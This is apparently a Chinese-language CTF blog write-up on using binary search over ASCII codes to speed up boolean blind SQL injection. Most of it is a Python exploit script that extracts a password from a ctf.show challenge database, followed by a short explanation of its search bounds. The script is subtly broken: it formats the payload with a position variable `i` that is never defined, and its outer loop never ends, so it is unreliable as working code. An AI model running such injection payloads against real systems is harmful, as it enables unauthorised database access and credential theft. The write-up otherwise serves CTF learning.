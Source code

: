 ```yaml
---
title: "SQL 盲注二分法"
date: 2022-07-28T20:00:43+08:00
draft: false
tags: ['sqli','python']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


之前一直都是整个过一遍字典... 二分法没怎么研究

二分法有一个使用条件, 就是需要查找的内容必须有序 (即按照从小到大或从大到小的顺序排序)

这里借 ASCII 码实现二分法盲注

<!--more-->

二分法 时间复杂度为 `O(log2n)`, 二分法查找比遍历字典查找效率高得多

```
import requests

url = 'http://a2a7e64c-6f02-4059-84fc-3cdda760b232.challenge.ctf.show/api/index.php?id=1'

flag = ''

while True:

    min = 32
    max = 127

    while min < max:
        mid = (min + max) // 2
        payload = '\' and if(ascii(substr((select password from ctfshow_user where username=\'flag\'),{},1))>{},1,0) %23'.format(i,mid)
        res = requests.get(url + payload)
        if 'admin' in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    print(flag)

```

这里主要说一下为什么是 `min = mid +1` 和 `max = mid`

当判断 mid 大于某个值的结果为 true 时, 这个所求值肯定是比 mid 要大的 (大于), 所以是 `mid + 1`

当结果为 false 时, 所求值应该是不超过 mid (小于等于), 所以是 `max = mid`
